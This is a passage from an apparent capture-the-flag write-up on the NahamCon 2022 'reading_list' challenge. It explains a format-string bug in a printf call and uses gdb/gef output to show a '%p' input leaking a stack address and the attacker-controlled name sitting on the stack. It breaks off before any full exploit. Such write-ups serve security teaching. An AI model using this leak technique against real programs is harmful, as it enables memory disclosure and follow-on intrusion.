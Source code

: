 `printf(*(char **)(booklist._0_8_ + (long)local_c * 8));` is the vulnerably--no format-string.  However, the book names are on the heap and not in the stack.  Fortunately, _your_ name is on the stack and you can change _your_ name:

```
gef➤  b *print_list+173
Breakpoint 1 at 0x1484
gef➤  run
Starting program: /pwd/datajerk/nahamconctf2022/reading_list/reading_list
What is your name: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaa
Hello: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaa!

1. Print reading list
2. Add book to reading list
3. Remove book from reading list
4. Change your name

> 2
Enter the book name: %p
1. Print reading list
2. Add book to reading list
3. Remove book from reading list
4. Change your name

> 1
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaa's reading list
1. 0x7fffffffbc10
```

> Above we're setting a breakpoint after the final `printf` in `print_list`.

Note above that our book name was `%p`, however `print_list` returns as the value in register `rsi` (the first parameter passed to a format-string) _before_ `printf` is called.

More import, look at our _name_ on the stack:

```
0x00007fffffffe2b0│+0x0000: 0x00005555555551c0  →  <_start+0> endbr64 	 ← $rsp
0x00007fffffffe2b8│+0x0008: 0x00007fffffffe2f0  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaa"
0x00007fffffffe2c0│+0x0010: 0x0000000000000000
0x00007fffffffe2c8│+0x0018: 0x00000001872e9a00
0x00007fffffffe2d0│+0x0020: 0x00007fffffffe330  →  0x0000000000000000	 ← $rbp
0x00007fffffffe2d8│+0x0028: 0x00005555555557e4  →  <main+171> jmp 0x555555555815 <main+220>
0x00007fffffffe2e0│+0x0030: 0x00007fffffffe428  →  0x00007fffffffe6b9  →  "/pwd/datajerk/nahamconctf2022/reading_list/reading[...]"
0x00007fffffffe2e8│+0x0038: 0x01005555555552d9
0x00007fffffffe2f0│+0x0040: "aaaabaaa"
0x00007fffffffe2f8│+0x0048: "caaadaaa"
0x00007fffffffe300│+0x0050: "eaaafaaa"
0x00007fffffffe308│+0x0058: "gaaahaaa"
0x00007fffffffe310│+0x0060: "iaaajaaa"
0x00007fffffffe318│+0x0068: "kaaalaaa"
0x00007fffffffe320│+0x0070: 0x00007fffffff0000  →  0x0000000000000000
0x00007fffffffe328│+0x0078: 0xb91f879e872e9a00
0x00007fffffffe330│+0x0080: 0x0000000000000000
0x00007fffffffe338│+0x0088: 0x00007ffff7de40b3  →  <__libc_start_main+243> mov edi, eax
```
